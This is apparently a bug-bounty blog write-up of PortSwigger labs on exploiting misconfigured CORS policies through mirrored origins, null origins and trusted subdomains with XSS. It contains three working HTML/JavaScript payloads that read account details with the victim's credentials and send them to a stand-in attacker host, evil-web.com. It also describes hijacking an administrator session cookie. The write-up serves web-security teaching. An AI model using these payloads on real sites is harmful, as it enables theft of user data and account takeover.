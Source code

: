 ```yaml
---
layout: post
title:  "Insecure CORS Policy"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/170120828-3edcc859-fc45-42c3-9fe7-a8cd8b20f682.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

- Cross-Origin Resource Sharing (CORS) is a browser mechanism that allows controlled access to resources outside a given domain.
- It extends and adds flexibility to the same-origin policy (SOP).
- However, it also offers the potential for cross-domain attacks if a website's CORS policy is poorly configured and implemented.

# Table of Contents
1. [CORS vuln with Origin base mirrored](#CORSvulnOriginmirrored)
2. [Origin only allows null origins](#Originallowsnullorigins)
3. [CORS with insecure reliable protocols](#CORSinsecurereliableprotocols)

---
#### 1- CORS vuln with Origin base mirrored <a name="CORSvulnOriginmirrored"></a>
We can see the result of the data in the response. 

![CORSBASIC1](https://user-images.githubusercontent.com/47476901/170133516-05d66e42-aae7-425d-a359-590e27bab824.png)

And the customized origin is reflected, which tells us that it is vulnerable.

`Origin: http://web-testing.com` ✔

![CORSBASIC2](https://user-images.githubusercontent.com/47476901/170130161-41f34362-0e9b-41f3-a551-84ec272c8ea0.png)

We create a custom html so that this data is sent to our malicious page to steal this data.

![CORSBASIC-webmaliciosa](https://user-images.githubusercontent.com/47476901/170120906-757459e0-d8c5-46dc-afab-980136ef0bbe.png)


- Malicious web HTML: 

```html
<html>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://web.com/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://evil-web.com/log?key='+this.responseText;
};
</script>
</html>
```

When the user visits our site it will send the data from that endpoint to our site where it can be seen in the logs of our server.

![CORSBASIC-LOGS](https://user-images.githubusercontent.com/47476901/170130571-b84a03fb-03d3-45ae-ac51-9d6232ff2a33.png)

---

#### 2- Origin only allows null origins <a name="Originallowsnullorigins"></a>
When we modify the Origin it is not reflected in the request.

`Origin: http://web-testing.com` ❌

![CORS-NULL-nullisnotreflected](https://user-images.githubusercontent.com/47476901/170130748-d0b6a6f8-93bd-4b8c-bb3e-d055c4e561e8.png)


We can see that the website only allows Origins that are null.

`Origin: null` ✔

![CORS-NULL-nullisreflected](https://user-images.githubusercontent.com/47476901/170130935-59eafe6e-69bd-4180-bbfd-a87a083c5382.png)


- An attacker can use several tricks to generate a cross-origin request containing the `NULL` value in the Origin header.
- This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using an `iframe` cross-origin request in isolated form space:

- Malicious HTML web: 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener; 
        req.open('get','https://web.com/accountDetails',true); 
        req.withCredentials = true;
        req.send();
		function reqListener() {
		location='https://evil-web.com/log?key='+this.responseText; }; 
    </script>
">
</iframe>
```
With the `location` we are indicating that this response that has the sensitive data is sent as parameters to the attacker's page.
This is the request that the victim user makes from behind when visiting our page.

1- Visit the attacker page and execute the javascript script we have created.

![CORS-NULL-1](https://user-images.githubusercontent.com/47476901/170131340-99fb5c99-45af-4a9b-87e8-700fde834195.png)


2- And when it reads the location it sends the data

![CORS-NULL-2](https://user-images.githubusercontent.com/47476901/170121090-d15e2f6c-c45e-4e17-888e-f4b58605e167.png)

3- When the user visits our page it will send the data of that endpoint to our page where it can be seen in the logs of our server.
Server logs:

![CORS-NULL-3](https://user-images.githubusercontent.com/47476901/170134706-1013416d-639c-456e-8f71-fce0e65e0744.png)


Url Decode: 
We have:
User, email, apikey and the session (The cookie that is linked to the user).

![CORS-NULL-urldecode](https://user-images.githubusercontent.com/47476901/170134233-30ef7f41-ec13-415a-beeb-40ac5edbaf71.png)

**Filtering administrator data**
Now imagine that the administrator visits our page, we get his data and in that data is included the session cookie that we can use to enter your session
Server logs: 

![CORS-NULL-admin1](https://user-images.githubusercontent.com/47476901/170134825-d9b51872-9f82-49e6-99e1-b5514ab295f8.png)

Url Decode: 

![CORS-NULL-admin2](https://user-images.githubusercontent.com/47476901/170121205-6b456e81-74be-4d67-8422-cde3949111f7.png)

We already have the administrator session

`Admin Session: F1BVIVSoQvTaB8i6HJ25gxtJdvJKweuz`

![CORS-NULL-admin3](https://user-images.githubusercontent.com/47476901/170131836-e1b19346-e368-4f66-b6c3-67a6d13005bc.png)


#### 3- CORS with insecure reliable protocols <a name="CORSinsecurereliableprotocols"></a>

The website only trusts domains that belong to it, i.e. its subdomains.

We do a test with our site in the origin and we get no reflection.

`Origin: http://web-testing.com` ❌

![CORS-SUBDOMAIN1](https://user-images.githubusercontent.com/47476901/170131978-0f42c20b-aa3c-4569-b5f6-ad5b9ad5db00.png)


We tried with a subdomain and it is reflected.

`Origin: http://subdomain.web.com` ✔

![CORS-SUBDOMAIN2](https://user-images.githubusercontent.com/47476901/170134037-257d9b15-b86c-43a4-884c-4ae98a1333a1.png)


We found a valid subdomain

![CORS-SUBDOMAIN3](https://user-images.githubusercontent.com/47476901/170121326-6bf2936e-ecee-4043-b83d-64473fe62467.png)

This subdomain is vulnerable to XSS reflected in the productId parameters, this will help us to execute our script since the page only trusts its subdomains.

**XSS in subdomain**

![CORS-SUBDOMAIN-XSS](https://user-images.githubusercontent.com/47476901/170121381-2735c975-9520-407e-a8b7-626497e0f292.png)

We exploit this vulnerability to exploit cross-domain trust to exfiltrate data to our server.

**Our malicious web**
- HTML malicious web: 

```html
<html>
<script>
document.location="http://subdomain.web.com/?search=<script>var req = new XMLHttpRequest(); req.onload = reqListener;req.open('get','https://web.com/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://evil-web.com/log?key='%2b%this.responseText; };%3c/script>"
</script>
</html>
```

When the victim user visits our page he will execute the XSS of the subdomain containing the script that makes a request to the page vulnerable to cors by domain trust and the response of that request is sent to the logs of our server.

1- The user visits our malicious page which contains the main script

![CORS-SUBDOMAIN-FINAL1](https://user-images.githubusercontent.com/47476901/170133826-b9fdb9c0-fa87-4982-8b4c-b14ead7c680c.png)

2- The javascript is executed and sends the user to the subdomain and executes xss 

![CORS-SUBDOMAIN-FINAL2](https://user-images.githubusercontent.com/47476901/170132459-4d5c609e-bdc5-4587-97a0-4d7dc15d3d53.png)



3- As the script comes from a trusted domain configured by the cors of the final page, it is executed on the page vulnerable to CORS.

![CORS-SUBDOMAIN-FINAL3](https://user-images.githubusercontent.com/47476901/170132611-b1af5d7e-ba91-4154-8809-0c207a5b28e7.png)


4- As it was malicious, the response was sent to the attacker's server with all the sensitive data.
Finally the data is sent to the malicious page as we can see with this intercepted request.

![CORS-SUBDOMAIN-FINAL4](https://user-images.githubusercontent.com/47476901/170129209-b81714b9-f65d-49e0-9f39-6eba73ec5fba.png)

5- These data are saved in the logs of our page as an attacker.
In which in this case are sent username, email, apikey and session cookie. 

![CORS-SUBDOMAIN-FINAL5](https://user-images.githubusercontent.com/47476901/170132722-aa1f2f58-1947-4440-9f57-b06e96eb0c03.png)


6- In the most extreme case as we have explained before, if an administrator visits our page we will have your session cookie.

![CORS-SUBDOMAIN-FINAL6](https://user-images.githubusercontent.com/47476901/170132873-dca4780c-aa37-42f7-b526-a26d66dc6d39.png)


7- Using the administrator's session cookie

`Admin Session: clljARot4Lc4KkFHfIylENGZmZbzYwD7`

![CORS-SUBDOMAIN-FINAL7](https://user-images.githubusercontent.com/47476901/170133118-797300b9-4428-467c-a961-80087da6f186.png)


### Conclusion
- This always depends on the response to the endpoint that we point.
- In this example if the user's session cookie or email was sent, but this is a particular case because the webs are very different from each other, as the above point says, it all depends on the response of the endpoint. 
- Understand what trust relationships are handled in CORS policies because there may be a CORS vulnerability but it does not have to be offensive. Like everything else, it depends on the context.

Source Labs:
- [Portswigger Labs](https://portswigger.net/web-security)

